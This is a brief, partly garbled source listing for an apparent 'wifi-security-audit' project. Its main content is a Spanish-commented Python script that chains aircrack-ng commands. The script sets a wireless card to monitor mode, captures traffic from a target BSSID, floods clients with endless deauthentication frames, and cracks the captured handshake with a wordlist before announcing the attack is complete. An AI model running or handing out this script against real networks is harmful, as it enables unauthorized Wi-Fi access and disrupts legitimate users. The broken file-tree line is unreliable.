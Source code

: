 
wifi-security-audit/
│
├── README.md
├── requirements.txt
├── .gitignore
└── src/
    ├── __init__.py
    ├── wifi_scanner.py
    └── wifi_crack.p  profile.

import os

# Configuración
interface = "wlan0"
bssid = "00:11:22:33:44:55"
wordlist = "/path/to/wordlist.txt"
output_file = "crack_output.txt"

# Comandos
commands = [
    f"airmon-ng start {interface}",
    f"airodump-ng -w capture --bssid {bssid} {interface}mon",
    f"aireplay-ng --deauth 0 -a {bssid} {interface}mon",
    f"aircrack-ng -w {wordlist} -b {bssid} capture-01.cap > {output_file}"
]

# Ejecutar comandos
for cmd in commands:
    os.system(cmd)

print("Ataque completado. Revisa el archivo de salida para ver los resultados.") 
